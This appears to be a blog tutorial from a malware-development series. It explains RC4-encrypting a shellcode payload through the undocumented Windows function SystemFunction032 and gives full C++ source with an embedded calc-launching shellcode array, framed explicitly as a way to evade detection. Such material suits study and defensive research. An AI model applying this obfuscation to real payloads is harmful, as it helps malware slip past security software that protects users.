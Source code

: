 ```yaml
---
title: "Malware Development: Crafting Digital Chaos 0x6: Undocumented structures"
classes: wide
header:
  teaser:  /assets/images/hsk.jpg
ribbon: black
description: "Article 7 of Malware Development series"
categories:
  - Malware Development
tags:
  - Malware Development
  - RC4
  - Encryption
  - Undocumented structures
  - WinAPI
  - C++
toc: true
---
```


# Encryption and obfuscation

A very important part of each Malware Development process is the encryption and obfuscation, The more you have a stealthy encryption the  more you aren't likely to be detected, So learning encryption techniques is a very important part of learning Malware Development.

Today we are going to combine encryption and obfuscation together, combining RC4 encryption technique and using Microsoft's undocumented structures to achieve this encryption.

Let's first talk a bit about Microsoft's undocumented structures.

# Undocumented structures

Microsoft's undocumented structures refer to data structures, functions, or behaviors within Windows operating systems that are not officially undocumented or supported by Microsoft. These undocumented features are not intended for public use and are typically not disclosed in official documentation or APIs. However, they may be discovered by reverse engineers or through experimentation.

Malware authors often use undocumented structures in Windows to hide their malicious activities and evade detection.

For example, the TDL (TDL-4 or **Alureon**) rootkit, which emerged around 2008, used various techniques to hide its presence on infected systems. It employed undocumented structures within the Windows kernel to intercept and modify system calls related to file I/O, process management, and network communications. By doing so, TDL was able to conceal its files and processes from both users and security software, making it extremely difficult to detect and remove.

Another example is the **Stuxnet** worm, which was discovered in 2010 and targeted industrial control systems, particularly those used in nuclear facilities. **Stuxnet** utilized multiple zero-day vulnerabilities and sophisticated techniques, including the exploitation of undocumented Windows structures, to infect systems and manipulate programmable logic controllers (PLCs) without detection. It employed rootkit-like functionality to hide its presence and evade detection by antivirus software.

**RC4 Encryption**

There is an undocumented WINAPI call `SystemFunction032`that actually is an implementation of RC4, we are going to use that call to encrypt (or decrypt) a payload that we designed.

The parameters of this function are from type `USTRING` , So before everything let's define our structure that we are going o inherit from:

```cpp
typedef struct USTRING{
  DWORD Length;
  DWORD MaxLength;
  PVOID pBuffer;
}
```
Next we are going to write the function prototype:

```cpp
typedef NTSTATUS(WINAPI* fnSystemFunction032)(

  struct USTRING* Data,
  struct USTRING* Key

  ); 
```
-   `typedef`: This keyword is used to define a new type alias. In this case, it's being used to create a new type alias for a function pointer.
-   `NTSTATUS`: This is a Windows-specific data type representing a status code, typically used to indicate the success or failure of a function call.
-   `WINAPI`: This is a macro defined in Windows headers, typically used to specify the calling convention for functions. It ensures that functions are appropriately called based on the platform's calling conventions (e.g., `stdcall`).

Again, all the information about this function and its parameters, return value and so on, are obtained through REVERSE ENGINEERING, and Microsoft hasn't until now a clear documentation about it.

```cpp
  NTSTATUS STATUS = NULL;
  // Data and Key
  USTRING Data;
  USTRING Key;

  // setting the values

  Data.Length = DataSize;
  Data.MaxLength = DataSize;
  Data.pBuffer = pData;

  Key.Length = Rc4KeySize,
  Key.MaxLength = Rc4KeySize;
  Key.pBuffer = pRc4Key;
```

Now we are defining and setting the initial values of the two structures (Data and Key), (pData, pRc4Key, DataSize, Rc4KeySize) are passed as parameters to the wrapper function.

Then after we have prepared the parameters that'll be passed to `Systemfunction032` we now need to call it to encrypt the Data variable with the Key value.

```cpp
fnSystemFunction032 SystemFunction032 = (fnSystemFunction032)(GetProcAddress(LoadLibraryA("Advapi32.dll"), "SystemFunction032"));
```

As the function is defined inside **Advapi32.dll** we have used `GetProcAddress()` and  `LoadLibraryA()` to resolve it.

Then last thing is to initiate the encryption:

```cpp
if ((STATUS = SystemFunction032(&Data, &Key)) != 0x0) {
    
    printf("SystemFunction032 failed with error 0x%0.8x", GetLastError());

    return FALSE;

  }
```

# Execution

Before we execute let's use Cyberchef and encrypt the payload with the same key we will be using in our code, So we can later compare it:

![P1](/assets/images/malware-development/7-0.png)

Then we break after the call and observe the shellcode address and compare the bytes we got:
![P2](/assets/images/malware-development/7-1.png)

The full code:

```cpp
#include <iostream>
#include <windows.h>

typedef NTSTATUS(WINAPI* fnSystemFunction032)(

  struct USTRING* Data,
  struct USTRING* Key

  );

typedef struct USTRING{
  DWORD Length;
  DWORD MaxLength;
  PVOID pBuffer;
};


BOOL Rc4Enc(IN PBYTE pRc4Key, IN PBYTE pData, IN DWORD Rc4KeySize, IN DWORD DataSize) {


  NTSTATUS STATUS = NULL;
  // Data and Key
  USTRING Data;
  USTRING Key;

  // setting the values

  Data.Length = DataSize;
  Data.MaxLength = DataSize;
  Data.pBuffer = pData;

  Key.Length = Rc4KeySize,
  Key.MaxLength = Rc4KeySize;
  Key.pBuffer = pRc4Key;

  fnSystemFunction032 SystemFunction032 = (fnSystemFunction032)(GetProcAddress(LoadLibraryA("Advapi32.dll"), "SystemFunction032"));

  if ((STATUS = SystemFunction032(&Data, &Key)) != 0x0) {
    
    printf("SystemFunction032 failed with error 0x%0.8x", GetLastError());

    return FALSE;

  }
  printf("EncryptionDone\n");
  return TRUE;
}

int main()
{

  unsigned char shellcode[] = {
  0x6A, 0x60, 0x5A, 0x68, 0x63, 0x61, 0x6C, 0x63, 0x54, 0x59, 0x48, 0x29, 0xD4, 0x65, 0x48, 0x8B,
  0x32, 0x48, 0x8B, 0x76, 0x18, 0x48, 0x8B, 0x76, 0x10, 0x48, 0xAD, 0x48, 0x8B, 0x30, 0x48, 0x8B,
  0x7E, 0x30, 0x03, 0x57, 0x3C, 0x8B, 0x5C, 0x17, 0x28, 0x8B, 0x74, 0x1F, 0x20, 0x48, 0x01, 0xFE,
  0x8B, 0x54, 0x1F, 0x24, 0x0F, 0xB7, 0x2C, 0x17, 0x8D, 0x52, 0x02, 0xAD, 0x81, 0x3C, 0x07, 0x57,
  0x69, 0x6E, 0x45, 0x75, 0xEF, 0x8B, 0x74, 0x1F, 0x1C, 0x48, 0x01, 0xFE, 0x8B, 0x34, 0xAE, 0x48,
  0x01, 0xF7, 0x99, 0xFF, 0xD7 };

  
  BYTE byteArray[] = { 0x62, 0x61, 0x64, 0x72, 0x37, 0x6c, 0x61, 0x33 };
  PBYTE key = byteArray;
  

  if(Rc4Enc(key, shellcode, sizeof key, sizeof shellcode) ==  TRUE){
    
    printf("Encrypted successfully and here is the address to check: %p",&shellcode);
    getchar();

  }
  return 1;
}
```

- Note: SystemFunction033 does the same RC4 encryption, I highly encourage you to explore it!.

Thanks for reading.
